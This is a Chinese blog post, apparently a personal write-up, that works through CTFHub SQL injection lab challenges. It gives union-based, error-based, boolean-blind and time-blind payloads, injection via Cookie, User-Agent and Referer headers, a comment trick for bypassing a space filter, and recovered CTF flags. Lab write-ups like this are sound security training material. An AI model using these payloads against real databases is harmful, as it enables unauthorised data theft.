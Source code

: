 ```yaml
---
layout: post
title: CTFHub Web SQL 注入
subtitle: CTFHub Web SQL 注入
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. SQL 注入

### 1.1. 整数型注入

```sql
1 #显示
1 and 1=1 #显示
-1 union select 1,2,3 #不显示
-1 union select 1,2 #显示
```

![image](https://img.ghostliner.top/J7WJ6a.png)

获取数据库和表

![image](https://img.ghostliner.top/ZlUuSZ.png)

获取 `flag` 表字段

![image](https://img.ghostliner.top/kPrwbG.png)

获取 flag

![image](https://img.ghostliner.top/WWTK7O.png)

### 1.2. 字符型注入

```sql
# 字符型确认
?id=1' and 1=1--+
?id=1' and 1=-1--+
```

![image](https://img.ghostliner.top/KfiUPt.png)

![image](https://img.ghostliner.top/wXOxLO.png)

![image](https://img.ghostliner.top/Sb52Gr.png)

![image](https://img.ghostliner.top/pfzIk3.png)

### 1.3. 报错注入

![image](https://img.ghostliner.top/HVkijc.png)

![image](https://img.ghostliner.top/h3XHx6.png)

![image](https://img.ghostliner.top/vf7Vyk.png)

![image](https://img.ghostliner.top/ZJOcZI.png)

![image](https://img.ghostliner.top/hGF5SU.png)

### 1.4. 布尔盲注

经测试只有 `query_error``query_success` 两种

布尔盲注

```sql
1 and (select count(table_name) from information_schema.tables where table_schema=database())=2 -- 表数量2
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4 -- 表1长度4
1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4 -- 表2长度4
```

```sql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/dNv8OM.png)

表名：flag

```sql
1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1 -- 列数1
1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1))=4 -- 列长度4
```

```sql
1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/CiqyVT.png)

列名：flag

```sql
1 and length((select flag from flag limit 0,1))=32 -- 
```

```sql
1 and ascii(substr((select flag from flag limit 0,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/utUqtQ.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{f127288b7d5f415118ee54ed}</font>`

### 1.5. 时间盲注

```sql
1 and sleep(3) -- 数字型注入
1 and if((select count(table_name)from information_schema.tables where table_schema=database())=2,sleep(3),0) -- 表数量2
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4,sleep(2),0) -- 表1长度4
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4,sleep(2),0) -- 表2长度4
1 and if(ascii(substr((select table_name from information_schema.tables where ta
ble_schema=database() limit 1,1),§1§,1))=§100§,sleep(2),0) -- 表1：news;表2：flag
1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1,sleep(2),0) -- flag表列数量1
1 and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='flag'))=4,sleep(2),0) -- 列1长度4
1 and if(ascii(substr((select column_name from information_schema.columns where 
table_schema=database() and table_name='flag'),§1§,1))=§100§,sleep(2),0) -- 列1名flag
```

```sql
1 and if(ascii(substr((select flag from flag),§1§,1))=§100§,sleep(2),0)
```

![image](https://img.ghostliner.top/Sp6pim.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{77f14ac024782fa5cb10968e}</font>`

### 1.6. MySQL 结构

```sql
1 union select 1,2
1 union select 1,2,3
```

![image](https://img.ghostliner.top/b9MNEF.png)

确定查询两列

![image](https://img.ghostliner.top/AfgPRI.png)

![image](https://img.ghostliner.top/4UMEPQ.png)

![image](https://img.ghostliner.top/7t0OoK.png)

### 1.7. Cookie 注入

![image](https://img.ghostliner.top/2y1qfY.png)

![image](https://img.ghostliner.top/Ydxxa6.png)

![image](https://img.ghostliner.top/V80bbO.png)

![image](https://img.ghostliner.top/1fUhq6.png)

![image](https://img.ghostliner.top/9rkGla.png)

### 1.8. UA 注入

![image](https://img.ghostliner.top/G6zdMS.png)

![image](https://img.ghostliner.top/4JrTFb.png)

![image](https://img.ghostliner.top/5FVUmD.png)

![image](https://img.ghostliner.top/6X1uU5.png)

![image](https://img.ghostliner.top/MHjXKF.png)

### 1.9. Refer 注入

原请求无 refer，手动添加

![image](https://img.ghostliner.top/U7kr6W.png)

![image](https://img.ghostliner.top/VxZMBg.png)

![image](https://img.ghostliner.top/vTiliJ.png)

![image](https://img.ghostliner.top/CQheLF.png)

![image](https://img.ghostliner.top/a82fBc.png)

![image](https://img.ghostliner.top/pQM0bR.png)

### 1.10. 过滤空格

`-1 union select 1,2`

![image](https://img.ghostliner.top/leHG4y.png)

`-1/**/union/**/select/**/1,2`

![image](https://img.ghostliner.top/peQY4l.png)

```sql
-1/**/union/**/select/**/database(),group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()
```

![image](https://img.ghostliner.top/AdE9IA.png)

```sql
-1/**/union/**/select/**/database(),group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='iwnukmmbul'
```

![image](https://img.ghostliner.top/YFXY53.png)

```sql
-1/**/union/**/select/**/database(),group_concat(pvrmhtxmxm)from/**/iwnukmmbul
```

![image](https://img.ghostliner.top/pEbgPv.png)
